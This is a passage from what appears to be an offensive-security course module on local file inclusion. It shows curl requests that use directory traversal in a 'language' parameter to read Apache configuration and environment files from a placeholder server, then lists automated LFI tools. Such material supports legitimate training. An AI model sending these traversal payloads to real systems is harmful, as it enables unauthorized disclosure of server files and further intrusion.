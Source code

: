 <p>As we can see, the scan returned over 60 results, many of which were not identified with the <a href="https://github.com/danielmiessler/SecLists/blob/master/Fuzzing/LFI/LFI-Jhaddix.txt">LFI-Jhaddix.txt</a> wordlist, which shows us that a precise scan is important in certain cases. Now, we can try reading any of these files to see whether we can get their content. We will read (<code>/etc/apache2/apache2.conf</code>), as it is a known path for the apache server configuration:</p>
<pre><code class="language-shell-session">[!bash!]$ curl http://&lt;SERVER_IP&gt;:&lt;PORT&gt;/index.php?language=../../../../etc/apache2/apache2.conf

...SNIP...
        ServerAdmin webmaster@localhost
        DocumentRoot /var/www/html

        ErrorLog ${APACHE_LOG_DIR}/error.log
        CustomLog ${APACHE_LOG_DIR}/access.log combined
...SNIP...
</code></pre>
<p>As we can see, we do get the default webroot path and the log path. However, in this case, the log path is using a global apache variable (<code>APACHE_LOG_DIR</code>), which are found in another file we saw above, which is (<code>/etc/apache2/envvars</code>), and we can read it to find the variable values:</p>
<pre><code class="language-shell-session">[!bash!]$ curl http://&lt;SERVER_IP&gt;:&lt;PORT&gt;/index.php?language=../../../../etc/apache2/envvars

...SNIP...
export APACHE_RUN_USER=www-data
export APACHE_RUN_GROUP=www-data
# temporary state file location. This might be changed to /run in Wheezy+1
export APACHE_PID_FILE=/var/run/apache2$SUFFIX/apache2.pid
export APACHE_RUN_DIR=/var/run/apache2$SUFFIX
export APACHE_LOCK_DIR=/var/lock/apache2$SUFFIX
# Only /var/log/apache2 is handled by /etc/logrotate.d/apache2.
export APACHE_LOG_DIR=/var/log/apache2$SUFFIX
...SNIP...
</code></pre>
<p>As we can see, the (<code>APACHE_LOG_DIR</code>) variable is set to (<code>/var/log/apache2</code>), and the previous configuration told us that the log files are <code>/access.log</code> and <code>/error.log</code>, which have accessed in the previous section.</p>
<div class="card bg-light">
<div class="card-body">
<p class="mb-0"><b>Note:</b> Of course, we can simply use a wordlist to find the logs, as multiple wordlists we used in this sections did show the log location. But this exercises shows us how we can manually go through identified files, and then use the information we find to further identify more files and important information. This is quite similar to when we read different file sources in the <code>PHP filters</code> section, and such efforts may reveal previously unknown information about the web application, which we can use to further exploit it.</p>
</div>
</div>
<hr/>
<h2>LFI Tools</h2>
<p>Finally, we can utilize a number of LFI tools to automate much of the process we have been learning, which may save time in some cases, but may also miss many vulnerabilities and files we may otherwise identify through manual testing. The most common LFI tools are <a href="https://github.com/D35m0nd142/LFISuite">LFISuite</a>, <a href="https://github.com/OsandaMalith/LFiFreak">LFiFreak</a>, and <a href="https://github.com/mzfr/liffy">liffy</a>. We can also search GitHub for various other LFI tools and scripts, but in general, most tools perform the same tasks, with varying levels of success and accuracy.</p>
<p>Unfortunately, most of these tools are not maintained and rely on the outdated <code>python2</code>, so using them may not be a long term solution. Try downloading any of the above tools and test them on any of the exercises we've used in this module to see their level of accuracy.</p>
<div class="mb-5 pwnbox-select-card"></div>